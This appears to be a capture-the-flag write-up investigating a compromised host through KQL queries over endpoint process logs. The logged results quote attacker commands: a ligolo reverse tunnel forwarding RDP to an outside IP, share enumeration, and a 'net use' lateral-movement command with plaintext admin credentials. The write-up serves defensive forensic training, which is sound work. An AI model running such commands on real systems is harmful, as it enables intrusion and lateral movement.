 <h1>Intro</h1>

**A compromised host! Time for a deep dive.**

Well, that's not good. It looks like Alabaster clicked on the link and downloaded a suspicious file. I don't know exactly what giftwrap.exe does, but it seems bad.

Can you take a closer look at endpoint data from Alabaster's machine? We need to figure out exactly what happened here. Word of this hack is starting to spread to the other elves, so work quickly and quietly!



<h3>Question</h3> 
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?



**Query**

```
let ClickTime = datetime(2023-12-02T10:12:42Z);
ProcessEvents
| where timestamp > ClickTime
| where hostname == 'Y1US-DESKTOP'
```

**Result**
```
"timestamp": 2023-12-02T11:11:29Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,
"process_name": ligolo,
"process_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,
"hostname": Y1US-DESKTOP,
"username": alsnowball

```

<h3>Question</h3> 
What is the timestamp when the attackers enumerated network shares on the machine?


**Result**

```
"timestamp":    ,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": net share,
"process_name": net.exe,
"process_hash": 8b5b1556ba468035a37b40d8ea42a4bff252f4502b97c52fcacb3ba269527a57,
"hostname": Y1US-DESKTOP,
"username": alsnowball

```


<h3>Question</h3> 
What was the hostname of the system the attacker moved laterally to?

**Query**

```
let ClickTime = datetime(2023-12-02T10:12:42Z);
ProcessEvents
| where timestamp > ClickTime
| where hostname == 'Y1US-DESKTOP'
| where process_commandline has "net"
```

**Result**
```
"timestamp": 2023-12-24T15:14:25Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123,
"process_name": cmd.exe,
"process_hash": bfc3e1967ffe2b1e6752165a94f7f84a216300711034b2c64b1e440a54e91793,
"hostname": Y1US-DESKTOP,
"username": alsnowball
```




